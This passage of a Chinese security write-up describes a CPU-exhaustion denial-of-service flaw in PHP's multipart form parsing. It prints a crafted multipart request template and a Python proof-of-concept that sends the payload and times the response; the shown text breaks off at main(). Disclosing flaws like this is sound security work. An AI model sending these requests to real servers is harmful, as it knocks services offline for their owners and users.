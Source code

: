 0x04 利用
=======

* * *

构造像以下恶意的http请求，当存在350000行`a\n`时，在我的测试环境中，一个http请求将消耗10s的cpu时间。每隔若干秒，同时并发多个请求，将导致server端cpu资源长期耗尽，从而到达DOS。总的来说，利用方式和Hash Collision DOS一样。

```
------WebKitFormBoundarypE33TmSNWwsMphqz
Content-Disposition:form-data; name="file"; filename="s
a
a
a
…
…
…
a"
Content-Type:application/octet-stream

why is it?
------WebKitFormBoundarypE33TmSNWwsMphqz

```

0x05 POC
========

* * *

```
'''
Author: Shusheng Liu,The Department of Security Cloud, Baidu
email: liusscs@163.com
'''
import sys
import urllib,urllib2
import datetime
from optparse import OptionParser

def http_proxy(proxy_url):

    proxy_handler = urllib2.ProxyHandler({"http" : proxy_url})
    null_proxy_handler = urllib2.ProxyHandler({})
    opener = urllib2.build_opener(proxy_handler)
    urllib2.install_opener(opener)
#end http_proxy 

def check_php_multipartform_dos(url,post_body,headers):
    req = urllib2.Request(url)
    for key in headers.keys():
        req.add_header(key,headers[key])
    starttime = datetime.datetime.now();
    fd = urllib2.urlopen(req,post_body)
    html = fd.read()
    endtime = datetime.datetime.now()
    usetime=(endtime - starttime).seconds
    if(usetime > 5):
        result = url+" is vulnerable";
    else:
        if(usetime > 3):
            result = "need to check normal respond time"
    return [result,usetime]
#end


def main():
```